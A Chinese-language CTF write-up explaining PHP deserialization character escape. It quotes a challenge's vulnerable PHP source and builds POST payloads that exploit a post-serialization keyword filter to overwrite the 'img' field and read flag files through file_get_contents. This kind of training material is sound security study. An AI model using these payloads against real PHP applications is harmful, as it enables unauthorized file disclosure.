 ### PHP 反序列化字符逃逸

话不多说，直接上题

![](https://pic1.imgdb.cn/item/67b2beaad0e0a243d4001b14.png)

打开网页拿到源码

```php
<?php
// 需要以 get 方式传入f参数
$function = @$_GET['f'];

// 对 $img（形参）进行过滤，后缀不允许出现 'php','flag','php5','php4','fl1g'
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

// unset() 销毁指定的变量。 
if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

// 本题的作用是将 _SESSION 的两个函数变为 post 传参
extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

// 对$_SESSION进行一些过滤
$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

首先让参数f等于 “phpinfo”，因为题目提示说这里可能会找到些东西

![](https://pic1.imgdb.cn/item/67b2bf5ed0e0a243d4001b33.png)

很明显是要读取这个文件，代码里读取文件的地方在这里

```php
if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

**反序列化字符串逃逸的原理：**

```
在构造键值的时候某些关键字被过滤掉了，但序列化后的字符串记录的长度不会因为过滤而改变，所以就会把序列化后的字符串的结构当做值的内容给读取
```

首先康康反序列化结果长啥样

```php
<?php
$_SESSION["user"] = '*';
$_SESSION['function'] = '**';
$_SESSION['img'] = base64_encode('guest_img.png');
echo serialize($_SESSION);

// a:3:{s:4:"user";s:1:"*";s:8:"function";s:2:"**";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

那么我们如果想要读取 `d0g3_f1ag.php` 文件的内容就需要令反序列化后的

```php
$_SESSION['img'] 为 d0g3_f1ag.php => ZDBnM19mMWFnLnBocA==
```

则初步反序列化内容

```php
s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";
```

再看到 `$serialize_info = filter(serialize($_SESSION));`

先经过序列化，然后在进行 `filter` 函数，也就是过滤替换操作

这样的话就很有可能会造成序列化字符串逃逸的问题

首先默认的序列化数据是

```php
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:14:"highlight_file";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

这里可以控制的部分是 user 和 function 的内容

于是要利用过滤，用 user 吃掉后面的

```
";s:8:"function";s:14:
```

之后在 function 的部分便可以写入数据控制后面的内容了

要吃掉的数据一共是22个，于是 user 的值为 phpphpphpphpphpphpflag

_SESSION[function] 的值为

```
;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"f";s:1:"a";}
```

这里要保证数组内的个数相等，所以要传入两个值，于是构造利用 payload

```php
_SESSION[user]=flagflagflagflagphpphp&_SESSION[function]=;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"f";s:1:"a";}
```

由于 `_SESSION` 数组有 3 个值，则需要在后面补充随便一个值即可

传入后 `$serialize_info` 的就为以下值

```php
a:3:{s:4:"user";s:22:"";s:8:"function";s:34:";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";} ";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

随后再读取 `s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`

随后大括号闭合

后面的 `";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}` 值丢弃

读取到 `d0g3_f1ag.php` 内容为

```php
<?php
$flag = 'flag in /d0g3_fllllllag';
?>
```

再依法读取 `/d0g3_fllllllag` 即可

```php
_SESSION[user]=flagflagflagflagphpphp&_SESSION[function]=;s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";s:1:"f";s:1:"a";}
```

![](https://pic1.imgdb.cn/item/67b30404d0e0a243d4003c54.png)
